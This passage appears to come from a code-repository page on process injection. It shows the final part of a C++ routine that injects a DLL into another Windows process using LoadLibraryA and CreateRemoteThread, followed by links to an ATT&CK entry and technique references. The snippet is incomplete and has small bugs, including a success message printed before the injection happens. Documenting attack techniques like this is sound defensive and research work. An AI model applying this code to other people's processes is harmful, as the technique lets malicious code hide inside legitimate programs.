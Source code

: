 ````
    std::cout << "[+] DLL injected successfully." << std::endl;

    LPTHREAD_START_ROUTINE loadLibraryAddress = (LPTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle(L"kernel32.dll"), "LoadLibraryA");
    if (!loadLibraryAddress) {
        std::cout << "[-] Could not get the address of LoadLibrary function.";
    }
    HANDLE remoteThread = CreateRemoteThread(targetProcess, NULL, 0, loadLibraryAddress, dllPath, 0, NULL);
    if (remoteThread == NULL) {
        std::cout << "[-] Could create new thread. Error code: " << GetLastError();
        return -1;
    }

    /*
    * We could implement DLL injection through NtCreateThreadEx or RtlCreateUserThread.
    */

    std::cout << "[+] New thread created successfully";

}
````

# References
- [Ten process injection techniques: A technical survey of common and trending process injection techniques](https://www.elastic.co/blog/ten-process-injection-techniques-technical-survey-common-and-trending-process)
- [Process Injection: Dynamic-link Library Injection](https://attack.mitre.org/techniques/T1055/001/)
- [DLL Injection](https://www.ired.team/offensive-security/code-injection-process-injection/dll-injection)